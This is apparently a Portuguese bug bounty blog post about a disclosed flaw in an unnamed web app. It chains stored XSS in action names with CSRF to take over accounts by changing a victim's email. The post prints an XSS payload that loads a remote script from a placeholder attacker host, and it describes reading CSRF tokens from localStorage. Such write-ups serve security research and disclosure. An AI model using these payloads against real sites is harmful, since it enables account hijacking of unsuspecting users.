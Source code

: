 ```yaml
---
layout: post
title:  "Bug Bounty 01 - Account Takeover via CSRF + XSS Stored"
date:   2019-06-03 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei em um programa na plataforma <a href="https://bugcrowd.com" target="_blank">Bugcrowd</a>. A falha já foi corrigida mais infelizmente o vendor não me autorizou a fazer o disclosure, então iremos chamar o site de domain.com :)
</p>

<p align="justify">
No vendor, havia uma aplicação que permite você possa criar uma instância e adicionar vários tipos de funcionalidades, como alertas, serviços, usuários, times etc.
<br>
Ao criar um serviço, é necessário que você aloque um time para que eles fiquem encarregados de cuidar deste serviço. Dentro de um serviço, era possível adicionar ações customizadas para que cada usuário fosse capaz de executar ao realizar determinada tarefa.
</p>

<p align="justify">
Nessas ações, verifiquei que ao executá-la um pop-up era aberto com o nome da ação executada, ou seja, o nome da ação era refletido nesse pop-up.
<br>
Decidi então adicionar uma tag HTML e um evento JS simples, inseri <code>&lt;img src="x" onerror="alert(1)"/&gt;</code>, e ao clicar na ação maliciosa, o nome foi refletido novamente, sem nenhum tipo de filtro, e o alerta apareceu :) (opaaaaa)
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png"/>
<br>
<img src="/images/bug_bounty/bb01/bb01-01.png"/>
<br>
<br>
Bom, neste ponto, eu já tinha um XSS Stored. Dei uma olhada de como funcionava a aplicação, e notei que havia como um usuário fazer a troca do email, então tive uma sacada... eu poderia utilizar de um CSRF junto com o XSS para realizar o Account Takeover.
</p>

<p align="justify">
Basicamente, o CSRF consistia em uma request POST simples para o endpoint que realizava a troca do email, decidi criar um arquivo javascript com o exploit (ele está disponível no meu github, vou deixar o link no final do report :) ) para que não ficasse muito código dentro do campo da ação.
<br>
<br>
Utilizei o seguinte código para carregar o exploit quando o usuário executar a ação maliciosa dentro do serviço:
<br>
<code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/poc.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code> 
<br>
<br>
<img src="/images/bug_bounty/bb01/bb01-02.png">
<br>
<br>
As ações disponíveis para os usuários ficariam dessa forma:
<br>
<img src="/images/bug_bounty/bb01/bb01-03.png">
<br>
<br>
Com isso, ao executar a ação maliciosa no serviço, o pop-up seria mostrado e o código executado.
</p>

<p align="justify">
Mas.... Para realizar a requisição, era necessário que fosse enviado junto da request, o token CSRF e o ID do usuário. Depois de fuçar um pouco a aplicação, notei que eles estavam sendo armazenados no localStorage (this is very good :) ), então tive apenas que capturar eles via JS e enviá-los juntos da requisição POST.
<br>
<img src="/images/bug_bounty/bb01/bb01-08.png"/>
</p>

<p align="justify">
Depois de realizar todo o processo, era necessário apenas adicionar as vítimas ao time, e atribuir um serviço com uma ação maliciosa a esse time, vale lembrar que não era necessário que as vítimas tivessem contas já criadas, pois o sistema verificava e caso não houvesse, era criado uma nova conta.
<br>
</p>

<p align="justify">
Como PoC, irei colocar alguns prints tirados do vídeo, então vamos lá :)
<br>
<br>
Primeiramente, o email da vítima permanece normalmente:
<br>
<img src="/images/bug_bounty/bb01/bb01-04.png">
<br>
<br>
Quando a vítima entrasse no seriço malicioso e fosse realizar alguma ação, esta seria a visão dele:
<br>
<img src="/images/bug_bounty/bb01/bb01-03.png">
<br>
<br>
Ao clicar na última ação, o pop-up era mostrado:
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png">
<br>
<br>
E em background a ação da troca de email era realizada:
<br>
<img src="/images/bug_bounty/bb01/bb01-05.png">
<br>
<br>
Como resultado, o email da vítima foi trocado:
<br>
<img src="/images/bug_bounty/bb01/bb01-06.png">
<br>
<br>
Um link de confirmação foi enviado para o email do atacante, e ao confirmar o novo email, a conta da vítima teria o seu email trocado:
<br>
<img src="/images/bug_bounty/bb01/bb01-07.png">
<br>
<br>
Infelizmente, não posso divulgar o vídeo da PoC, pois como foi dito no início, o vendor não autorizou que fosse divulgado a vulnerabilidade e tentei ao máximo deixar o mesmo mais anônimo possível :).
</p>

<p align="justify">
Como prometido, o exploit pode ser encontrado neste link: <a href="https://github.com/vitor-fernandes/exploits/blob/master/poc.js" target="_blank" style="color: blue"><b>Exploit</b></a> 
</p>